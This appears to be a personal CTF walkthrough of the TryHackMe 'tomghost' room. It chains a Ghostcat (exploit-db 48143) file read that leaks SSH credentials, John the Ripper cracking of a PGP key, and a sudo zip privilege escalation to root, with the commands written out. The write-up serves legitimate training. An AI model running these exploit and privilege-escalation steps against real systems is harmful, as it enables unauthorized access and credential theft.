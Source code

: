 The machine we will exploit in this capstone is:
- [https://tryhackme.com/r/room/tomghost](https://tryhackme.com/r/room/tomghost)

# NMAP scan
First of all we need to do a `nmap` scan on the target IP:
```bash
nmap -p- -A -T4 HOST_IP
```
- ![[Pasted image 20250120141341.png]]
- we can see a `ssh`, `apache tomcat` and a `apache jserv 1.3` services on open ports


# enumerating web server
We start to enumerate the webserver `tomcat` on port `8080`:
- ![[Pasted image 20250120141500.png]]

And we see that there is a `manager app` that is basically an admin dashboard.


# Searching exploits for jserv 1.3

Now we go on google and we search for exploits over `apache jserv 1.3`:
- ![[Pasted image 20250120141634.png]]
- ![[Pasted image 20250120141654.png]]




In addition we find this reference to `ghostcat` so we search for it:
- ![[Pasted image 20250120141725.png]]


So we can get a look on `exploit-db` for `ghostcat` exploit:
- [https://www.exploit-db.com/exploits/48143](https://www.exploit-db.com/exploits/48143)


We download it and we try to access the file `WEB-INF/web.xml`:
```bash
python3 48143.py HOST_IP -p JSERV_PORT -f WEB-INF/web.xml
```
- ![[Pasted image 20250120142348.png]]
- ![[Pasted image 20250120142500.png]]
- It worked and we found credentials for `skyfuck`


So we use the credentials to access using ssh:
```bash
ssh skyfuck@HOST_IP
```
- ![[Pasted image 20250120142537.png]]
- ![[Pasted image 20250120142619.png]]


We have a user shell.

# Privilege escalation

## looking for history
We search on the terminal history:
```bash
history
```
- ![[Pasted image 20250120142719.png]]
- Some interesting info like `credential.pgp`


# search for sudo
We search all commands we can run as sudo:
```bash
sudo -l
```
- ![[Pasted image 20250120142816.png]]
- No commands we can run


# seaching in the folder
Using `ls` we can see some files:
- ![[Pasted image 20250120143002.png]]

So we pass them in our machine...
We will use `scp` that allows us to pass files in ssh:
```bash
scp skyfuck@HOST_IP:tryhackme.asc .
```
- so we are getting the file `tryhackme.asc` and we are putting it in the current directory
- we use the password used for ssh
- ![[Pasted image 20250120143159.png]]

We get also `credential.pgp`:
```bash
scp skyfuck@HOST_IP:credential.pgp .
```
- ![[Pasted image 20250120143242.png]]



In order to read a `.pgp` file we need a passphrase, we could find it in the `.asc` file but we need to crack it.

So we search on google `decrypt .asc file crack`:
- ![[Pasted image 20250120143443.png]]
- [https://www.openwall.com/lists/john-users/2015/11/17/1](https://www.openwall.com/lists/john-users/2015/11/17/1)

So we start to crack the `.asc` file:
```bash
gpg2john tryhackme.asc > output
```
- ![[Pasted image 20250120143613.png]]

And we crack it:
```bash
john --wordlist=rockyou.txt output
```
- ![[Pasted image 20250120143659.png]]
- The password is `alexandru`


So let's decrypt the `.pgp` file:
```bash
gpg --import tryhackme.asc
```
- we insert `alexandru` as password
- ![[Pasted image 20250120143818.png]]

So now we do:
```bash
gpg --decrypt credential.pgp
```
- ![[Pasted image 20250120143849.png]]
- we got `merlin` credentials


# access ssh with merlin
So we use these credential to login as `merlin`:
```bash
ssh merlin@HOST_IP
```
- ![[Pasted image 20250120143940.png]]



# Repeat process again for privesc

## search for history
```bash
history
```
- ![[Pasted image 20250120144025.png]]
- Nothing

## sudo search
```bash
sudo -l
```
- ![[Pasted image 20250120144052.png]]

So we can run `/usr/bin/zip` as root.


So we go on `GTFOBins` and we search for `zip`:
- ![[Pasted image 20250120144140.png]]

So we run the commands:
```bash
TF=$(mktemp -u)

sudo zip $TF /etc/hosts -T -TT 'sh #'

sudo rm $TF
```
- ![[Pasted image 20250120144244.png]]

We gain a root shell!